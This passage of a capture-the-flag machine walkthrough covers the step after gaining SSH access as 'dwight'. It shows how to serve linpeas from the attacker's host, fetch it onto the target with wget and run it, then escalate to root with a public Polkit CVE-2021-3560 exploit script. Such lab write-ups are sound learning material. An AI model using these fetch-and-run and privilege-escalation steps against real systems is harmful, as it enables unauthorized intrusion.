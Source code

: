 ![ssh to dwight](../../.gitbook/assets/ssh.png)

BOOM! we are in now. We can now get the user flag via: `cat user.txt`

### Privilege Escalation

Now we have to escalate our privilege to root

Copy [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to machine via SCP or creating python server on out machine then downloading from it. I am using the 2nd method, create a python server on our host machine where `linpeas.sh` is stored by: `python -m http.server` Then use wget from the dwight shell: `wget http://{ip}:8000/linpeas.sh`

then

```
chmod +x linpeas.sh
./linpeas.sh
```

![CVE-2021-3560](<../../.gitbook/assets/linpeas out (1).png>)

So, we have a famous vulnerability "Polkit-exploit CVE-2021-3560" .

We have python3 installed in our machine so we can use this exploit to gain the root shell [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)

just create the file name `poc.py by`: touch `poc.py` and paste the above exploit

```
chmod +x poc.py
python3 poc.py
```
